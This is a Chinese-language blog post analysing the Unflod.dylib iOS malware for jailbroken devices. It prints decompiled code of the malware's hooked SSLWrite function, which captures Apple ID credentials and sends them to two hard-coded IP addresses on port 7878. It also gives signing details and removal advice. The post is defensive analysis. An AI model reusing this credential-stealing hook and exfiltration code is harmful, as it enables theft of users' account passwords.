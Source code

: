 ```yaml
---
layout: post   
title: 对iOS恶意软件Unflod的分析       
categories: 
- iOS   
tags:     
- iOS
---    
```


###介绍

 tdvx在Reddit上发帖说：从上周起，他用Snapchat和Google Hangouts的使用经常遇到crash，经过排查，他发现是下面这个可疑文件导致的：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib
 
 i0n1c对这个可疑文件进行了分析,[iOS Malware Campaign "Unflod Baby Panda"][1]
 

###分析

这个恶意文件位于：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib或者framework.dylib。依赖于MobileSubstrate，只在越狱设备上起作用。



    ｀int __fastcall replace_SSLWrite(int a1, char *a2, int a3, int a4)
     {
     ......
     
     if ( !findhead )
      {
        v19 = strstr(v22, "/WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1");
        if ( v19 )
        {
          findhead = 1;
          strcpy(content, v22);
        }
      }
      if ( findhead == 1 )
      {
        v18 = strstr(v22, "<key>appleId</key>");
        v17 = strstr(v22, "<key>password</key>");
        if ( v18 )
        {
          if ( v17 )
          {
            strcat(content, v22);
            v16 = strstr(content, "</plist>");
            if ( v16 && v16 - content <= 2040 )
              v16[8] = 0;
            v14 = 0;
            v15 = socket(2, 1, 0);
            if ( v15 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v13.sa_family = 2;
            *(_WORD *)&v13.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v13.sa_data[2] = inet_addr("23.88.10.4");
            if ( connect(v15, &v13, 0x10u) < 0 )
            {
              close(v15);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v5 = v15;
            v6 = strlen(content);
            v14 = write(v5, content, v6);
            v11 = 0;
            close(v15);
            v12 = socket(2, 1, 0);
            if ( v12 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v10.sa_family = 2;
            *(_WORD *)&v10.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v10.sa_data[2] = inet_addr("23.228.204.55");
            if ( connect(v12, &v10, 0x10u) < 0 )
            {
              close(v12);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v7 = v12;
            v8 = strlen(content);
            v11 = write(v7, content, v8);
            close(v12);
            findhead = 2;
          }
        }
      }
      v24 = pSSLWrite(v23, v22, v21, v20);
    LABEL_20:
      if ( __stack_chk_guard != v25 )
        __stack_chk_fail(__stack_chk_guard, v24, v25, v4);
      return v24;
    }


这个恶意代码通过 Hook Security.framework的SSLWrite，截取Appid和密码，然后把这些信息发送到

IP：23.88.10.4 和 23.228.204.55。端口为7878。也就是上面的0xC61Eu。注意，这里是big endian模式。所以，端口其实是0x1EC6,即7878。









###签名
这个恶意软件被iPhone开发者证书签名。签名信息如下：

    $ codesign -vvvv -d Unflod.dylib
    Executable=./Unflod.dylib
    Identifier=com.your.framework
    Format=Mach-O thin (armv7)
    CodeDirectory v=20100 size=227 flags=0x0(none) hashes=3+5 location=embedded
    Hash type=sha1 size=20
    CDHash=da792624675e82b3460b426f869fbe718abea3f9
    Signature size=4322
    Authority=iPhone Developer: WANG XIN (P5KFURM8M8)
    Authority=Apple Worldwide Developer Relations Certification Authority
    Authority=Apple Root CA
    Signed Time=14 Feb 2014 04:32:58
    Info.plist=not bound
    Sealed Resources=none
    Internal requirements count=2 size=484
    
需要注意的是，**这并不表示这个人就是这个事情的始作俑者**。这个人可能是假冒的，也可能是其证书被偷窃，也可能是真正涉及到这个事情，但是，我们没有办法知道，但是，苹果需要调查这个事情。


*“This person might be a fake persona, the victim of certificate theft or really involved. It is impossible for us to know, but Apple should be able to investigate from this information and terminate that developer account.[1]“*



###解决方法

如果你的设备上有Unflod.dylib/framework.dylib这两个文件，把其删掉，然后重新设置Apple id和密码就可以了。


###结束语
没有越狱的用户不用担心Unflod这个恶意软件。iOS 7之后，输入法，电话黑名单等功能系统都自带，用户也没必要越狱了。


**建议普通用户别越狱。越狱需谨慎。**



<br>
 i0n1c分析的原文是：[iOS Malware Campaign "Unflod Baby Panda"][1]
<br>

###关于我
大家好，我是[@吴发伟Ted](http://weibo.com/wufawei)，我会在博客上分享自己学习的一些东西。

###好文推荐  && iOS Wiki

[好文推荐(news.ios-wiki.com)][5]和[iOS Wiki(www.ios-wiki.com)][6]是我利用业余时间建立的网站。

###微信公众账号
微信公众账号：**iOS技术分享**  
![](http://farm3.staticflickr.com/2826/10855679484_56b7429bd6_m.jpg)




<br/>

[1]:https://www.sektioneins.de/en/blog/14-04-18-iOS-malware-campaign-unflod-baby-panda.html

[2]:http://www.ios-wiki.com/issues/12
[3]:http://www.ios-wiki.com/mobile/issues/12

[5]:http://news.ios-wiki.com
[6]:http://www.ios-wiki.com